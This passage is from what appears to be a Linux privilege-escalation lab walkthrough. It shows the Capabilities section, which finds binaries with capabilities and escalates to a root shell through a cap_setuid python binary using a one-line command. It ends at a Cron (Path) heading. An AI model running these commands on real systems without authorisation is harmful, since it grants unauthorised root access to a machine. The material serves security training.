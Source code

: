 ![Env-Var2-2](/Images/linux_privesc_arena/env-var2-2.png)


## Capabilities 


1. In command prompt type: `getcap -r / 2>/dev/null`
2. From the output, notice the value of the “cap_setuid” capability.

```
/usr/bin/python2.6 = cap_setuid+ep
```

**Explotation**

1. In command prompt type:

`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`


![Capabilities](/Images/linux_privesc_arena/capabilities.png)


## Cron (Path)
